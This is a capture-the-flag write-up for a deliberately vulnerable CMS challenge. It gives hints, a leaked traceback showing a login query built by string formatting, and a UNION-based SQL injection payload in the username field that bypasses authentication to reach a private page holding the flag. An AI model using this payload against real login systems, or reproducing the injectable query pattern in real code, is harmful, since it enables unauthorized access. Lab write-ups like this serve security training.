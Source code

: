 ### hints
* Regular users can only see public pages
* Getting admin access might require a more perfect union
* Knowing the password is cool, but there are other approaches that might be easier

### solution

1. navigate to a login page by either **creating a new page** or **editing a page**
2. typical weak credentials don't work here. to name a few:
   * admin / admin
   * admin / admin123
   * admin / password
   * admin / passwd
3. enter broken sql in username field to get error page (e.g. `'`)
```
Traceback (most recent call last):
  File "./main.py", line 145, in do_login
    if cur.execute('SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')) == 0:
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/cursors.py", line 255, in execute
    self.errorhandler(self, exc, value)
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/connections.py", line 50, in defaulterrorhandler
    raise errorvalue
ProgrammingError: (1064, "You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''''' at line 1")
```
4. :evilburns:
5. bypass loging with something similar to this:
   * *Username:* `' union select '1337' as password #`
     * you can place anything instead of `1337` as long as you use it as the password
   * *Password:* `1337`
6. now that you're logged in, navigate back home
7. you'll see **Private Page** where the flag is
